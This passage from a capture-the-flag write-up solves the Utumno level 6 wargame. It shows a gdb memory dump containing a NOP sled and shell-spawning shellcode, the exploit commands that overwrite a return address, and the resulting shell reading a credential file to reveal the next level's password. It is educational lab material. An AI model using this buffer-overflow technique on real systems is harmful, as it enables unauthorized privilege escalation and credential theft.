 Then we will try to find the address of our NOP sled and set it as third argument.

```nasm
gdb) x/2048x $esp
0xffffd4ec:	0xffffd400	0xffffd723	0xffffd4e8	0xf7e40890
0xffffd4fc:	0x080485fb	0x00000004	0xffffd5c4	0xffffd5d8

...[removed]...

0xffffdcec:	0x3d667073	0x333b3030	0x53003a36	0x435f4853
0xffffdcfc:	0x454e4e4f	0x4f495443	0x30313d4e	0x36312e34
0xffffdd0c:	0x36312e33	0x36382e39	0x37383520	0x31203337
0xffffdd1c:	0x312e3239	0x312e3836	0x392e3130	0x32322030
0xffffdd2c:	0x47474500	0x9090903d	0x90909090	0x90909090
0xffffdd3c:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffdd4c:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffdd5c:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffdd6c:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffdd7c:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffdd8c:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffdd9c:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffddac:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffddbc:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffddcc:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffdddc:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffddec:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffddfc:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffde0c:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffde1c:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffde2c:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffde3c:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffde4c:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffde5c:	0xf7c93190	0x510bb0e1	0x732f2f68	0x622f6868
0xffffde6c:	0xe3896e69	0x5f0080cd	0x73752f3d	0x69622f72
0xffffde7c:	0x64672f6e	0x414c0062	0x653d474e	0x53555f6e
0xffffde8c:	0x4654552e	0x4f00382d	0x5750444c	0x682f3d44
(gdb) run -1 0xffffd4e8 $(python -c "print '\xcc\xdd\xff\xff'")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /utumno/utumno6 -1 0xffffd4e8 $(python -c "print '\xcc\xdd\xff\xff'")
process 26560 is executing new program: /bin/dash
$
```

Finally, we try the same without **GDB**. I added 30 bytes to the second arguments to get a shell. Depending on your environment, try to increment it 10 by 10. Eventually you'll get the shell.

```bash
utumno6@utumno:/utumno$ ./utumno6 -1 0xffffd518 $(python -c "print '\xcc\xdd\xff\xff'")
$ whoami
utumno7
$ cat /etc/utumno_pass/utumno7
totiquegae
```
